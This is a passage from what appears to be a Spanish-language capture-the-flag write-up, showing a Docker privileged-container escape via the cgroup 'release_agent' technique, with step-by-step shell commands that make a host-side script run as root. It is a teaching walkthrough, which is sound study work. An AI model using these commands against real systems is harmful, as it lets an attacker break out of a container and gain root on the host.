El artículo nos dice que si estamos dentro de un contenedor debemos ver `/docker/ID_del_contenedor`. Así que vamos bien (:

Ahora, ¿cómo sabemos si tiene el atributo `--privileged`?: lo explica, pero no pude probarlo, ya que el comando no está habilitado :P Peeero vamos a creer que si lo tenemos activado (pensamiento lateral e.e)... Escapemos:

* [Understanding Docker Container Escapes - trailofbits.com](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/).

Creamos un `cgroup`:

```bash
root@gitlab:~# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

Habilitamos el feature (`release_agent`) que está siendo ejecutado desde el host como `root`:

> release_agent: the path to use for release notifications (this file exists in the top cgroup only) [kernel.org/cgroups](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)

```bash
root@gitlab:~# echo 1 > /tmp/cgrp/x/notify_on_release
```

Ahora alojamos la ruta del archivo que tendrá nuestros comandos hacia el archivo conteniendo el feature:

```bash
root@gitlab:~# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@gitlab:~# echo $host_path
/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff
root@gitlab:~# echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

Terminando, añadimos nuestros comandos al archivo, donde `/cmd` son los comandos y `/output` la respuesta:

```bash
root@gitlab:~# echo '#!/bin/sh' > /cmd
root@gitlab:~# echo "ls -la /root > $host_path/output" >> /cmd
root@gitlab:~# chmod a+x /cmd
```

En mi caso quiero listar el directorio home de `root`.

Finalmente ejecutamos un proceso que termina sobre el `cgroup` que hemos creado y nuestro `release_agent` es lanzado:

```bash
root@gitlab:~# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Veamos el resultado en el archivo `/output`:

```bash
root@gitlab:/# cat cmd 
#!/bin/sh
ls -la /root > /var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff/output
```
